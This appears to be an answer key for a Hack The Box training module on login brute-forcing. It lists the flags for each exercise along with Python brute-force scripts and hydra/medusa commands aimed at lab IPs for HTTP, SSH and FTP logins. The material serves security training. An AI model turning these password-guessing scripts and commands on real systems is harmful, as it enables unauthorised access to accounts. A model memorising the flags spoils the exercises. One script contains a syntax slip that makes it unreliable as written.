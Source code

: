 # Brute Force Attacks

1. After successfully brute-forcing the PIN, what is the full flag the script returns?

Answer: HTB{Brut3_F0rc3_1s_P0w3rfu1}

Explanation: used a snippet given in the article

"""
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break

"""

# Dictionary Attacks

1.  After successfully brute-forcing the target using the script, what is the full flag the script returns?

Answer : HTB{Brut3_F0rc3_M4st3r}

Explanation: 

"""
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
"""

# Basic HTTP Authentication

1.  After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Answer: HTB{th1s_1s_4_f4k3_fl4g}

Explanation: hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 83.136.250.52 http-get / -s 50631

# Login Forms

1. After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Answer: HTB{W3b_L0gin_Brut3F0rc3}

Command:  hydra -L ./top-usernames-shortlist.txt  -P ./2023-200_most_used_passwords.txt -f 83.136.253.171 -s 46029 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

# Web Services

1. What was the password for the ftpuser?

Answer: qqww1122

Explanation: medusa -h 94.237.49.130 -n 41112  -u ftpuser -P 2020-200_most_used_passwords.txt  -t 5 -M ssh

2. After successfully brute-forcing the ssh session, and then logging into the ftp server on the target, what is the full flag found within flag.txt?

Answer: HTB{SSH_and_FTP_Bruteforce_Success}

Explanation: ssh ftpuser@94.237.49.130 -p 41112

# Custom wordlists

1. After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Answer: HTB{W3b_L0gin_Brut3F0rc3_Cu5t0m}

Explanation: hydra -L jane_smith.txt  -P jane-filtered.txt 83.136.255.142 -s 57433 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

# Skill Assessment 1


1. What is the password for the basic auth login?

Answer: Admin123

Explanation: Do not use wget command. Better to access the provided link to raw files from pwnbox and save raw file by the provided button. 

2.  After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

Answer: sstwossh

Explanation: By using hydra command, related to the first question. This time: 
Useful links: 
1. https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication 
2. https://www.debugbear.com/basic-auth-header-generator

# Skill Assessment 2

1. What is the username of the ftp user you find via brute-forcing?

Answer: thomas

Explanation: ise username-anarchy to create the list of possible usernames with Thomas Smith (user from IncidentReport.txt). Simple Enumeration.

2. What is the flag contained within flag.txt

Answer: HTB{brut3f0rc1ng_succ3ssful}

Hydra command: hydra -L tom_smith.txt -P passwords.txt -f 94.237.54.69 -s 55547 ssh